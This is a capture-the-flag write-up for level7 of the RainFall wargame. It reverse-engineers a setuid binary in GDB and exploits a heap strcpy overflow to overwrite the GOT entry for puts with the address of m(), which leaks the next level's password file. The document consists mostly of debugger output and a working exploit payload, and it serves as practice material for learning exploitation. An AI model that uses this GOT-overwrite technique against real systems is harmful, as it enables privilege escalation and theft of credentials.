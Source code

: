 ```sh
level7@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42 42
~~
level7@RainFall:~$ ./level7 42 42 42
~~
```
There is one excutable file **level7**, if we give less then 2 arguments, its segmentation falut, start of 2 arguments, it prints just "~~". \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x080484f4  m
0x08048521  main
...
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp) # 0
   0x08048501 <+13>:    call   0x80483d0 <time@plt> # time(0)
   0x08048506 <+18>:    mov    $0x80486e0,%edx # "%s - %d\n"
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp) # global variable c
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt> # printf("%s - %d\n", c, time(0))
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.
(gdb) disas main
...
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    0xc(%ebp),%eax
   0x080485a8 <+135>:   add    $0x8,%eax
   0x080485ab <+138>:   mov    (%eax),%eax
   0x080485ad <+140>:   mov    %eax,%edx
   0x080485af <+142>:   mov    0x18(%esp),%eax
   0x080485b3 <+146>:   mov    0x4(%eax),%eax
   0x080485b6 <+149>:   mov    %edx,0x4(%esp)
   0x080485ba <+153>:   mov    %eax,(%esp)
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    $0x80486e9,%edx # "r"
   0x080485c7 <+166>:   mov    $0x80486eb,%eax # "/home/user/level8/.pass"
   0x080485cc <+171>:   mov    %edx,0x4(%esp)
   0x080485d0 <+175>:   mov    %eax,(%esp)
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt> # fopen("/home/user/level8/.pass", "r")
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp) # 0x44 = 68
   0x080485e4 <+195>:   movl   $0x8049960,(%esp) # global variable c
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt> # fgets (c, 68, fopen())
   0x080485f0 <+207>:   movl   $0x8048703,(%esp) # "~~"
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
...
```
We can see fopen gets two parameters, in the line main+161, main+166.
```sh
(gdb) x/s 0x80486eb
0x80486eb:       "/home/user/level8/.pass"
(gdb) x/s 0x80486e9
0x80486e9:       "r"
```
and in the main+202, fgets also takes 3 arguments, we can see return value of fopen, 0x44(68) and 0x8049960.
```sh
(gdb) x/s 0x8049960
0x8049960 <c>:   ""
```
c is one of global variable, So it seems be like this.
```c
fgets(c, 68, fopen("/home/user/level8.pass", "r"));
```
And we can see also something in ```m()``` function line 13-38,
```sh
(gdb) x/s 0x80486e0
0x80486e0:       "%s - %d\n"
(gdb) x/s 0x8049960
0x8049960 <c>:   ""
```
So printf should be like
```c
printf("%s - %d\n", c, time(0));
```
The global variable ```c``` takes .pass of level8 with fgets, and the ```m()``` function prints the value of c. but in the main, there is nowhere calling the function ```m()```. \
Let's try buffer overflow strcpy.
```sh
(gdb) r aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB
Starting program: /home/user/level7/level7 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB

Program received signal SIGSEGV, Segmentation fault.
0xb7eb1922 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
there is no overflow until EIP register, but we can see
```sh
(gdb) i r
eax            0x42424242       1111638594
ecx            0xbffff905       -1073743611
edx            0x37616136       929128758
ebx            0xb7fd0ff4       -1208152076
...
Enter the hex value to find (e.g., 0x63613563): 0x37616136
Little Endian ASCII representation: '6aa7'
'6aa7' found at offset: 20
...
level7@RainFall:~$ ltrace ./level7 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                      = 0x0804a008
malloc(8)                                                      = 0x0804a018
malloc(8)                                                      = 0x0804a028
malloc(8)                                                      = 0x0804a038
strcpy(0x0804a018, "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab"...)      = 0x0804a018
strcpy(0x37616136, "BBBB" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
```
EDX registers are corrupted in the offset 20. and the value of EAX is second argument, we can think the first ```strcpy()``` is done, but second ```strcpy()``` try the address of ```0x37616136``` with argument ```BBBB```. \
So we can find point of overwrite, after saving data to global variable ```c``` with ```fopen()```, its ```puts()```.
```sh
(gdb) disas main
...
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
...
(gdb) x/i 0x8048400
   0x8048400 <puts@plt>:        jmp    *0x8049928
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
```
So, for the first argument, we put 20 bytes of something + ```puts()``` GOT address and address of ```m()``` function in second argument.
```sh
level7@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa" + "\x28\x99\x04\x08"' > /tmp/exploit7
level7@RainFall:~$ python -c 'print "\xf4\x84\x04\x08"' > /tmp/exploit77
level7@RainFall:~$ ./level7 $(cat /tmp/exploit7) $(cat /tmp/exploit77)
(hidden)
 - 1733521467
```
level7 passed !